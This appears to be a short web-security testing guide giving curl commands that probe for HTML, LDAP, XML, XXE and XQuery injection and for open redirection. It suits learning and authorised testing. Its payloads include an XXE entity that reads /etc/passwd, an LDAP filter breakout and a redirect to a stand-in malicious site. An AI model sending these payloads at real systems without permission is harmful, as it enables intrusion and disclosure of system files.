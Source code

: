 ### Test for HTML Injection

HTML injection occurs when an attacker can inject HTML code into a web application. Test this by submitting a form with HTML tags:
```bash
curl -X POST -d "username=<b>Admin</b>" http://example.com/register
```
### Test for LDAP Injection

LDAP Injection occurs when untrusted input is used to construct LDAP queries. To test this, try:
```bash
curl "http://example.com/search?filter=(user=*))"
```
### Test for XML Injection

XML Injection occurs when user input is injected into an XML document. Test this by submitting XML data:
```bash
curl -X POST -d "<user><name>Attacker</name></user>" http://example.com/api
```
Check if the XML structure is altered.
### Test for XXE Injection

XML External Entity (XXE) Injection is a type of attack against an application that parses XML input. Test this with:
```bash
curl -X POST -d "<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///etc/passwd'> ]><foo>&xxe;</foo>" http://example.com/api
```
If it retrieves the contents of `/etc/passwd`, the application is vulnerable.
### Test for XQuery Injection

XQuery Injection occurs in systems using XQuery. Test this by injecting XQuery commands:
```bash
curl "http://example.com/api?query=for $x in doc('data.xml') return $x"
```
### Test for Open Redirection

Open Redirection vulnerabilities occur when an application redirects users to an external site. Test this by manipulating redirect parameters:
```bash
curl "http://example.com/redirect?url=http://malicious-site.com"

```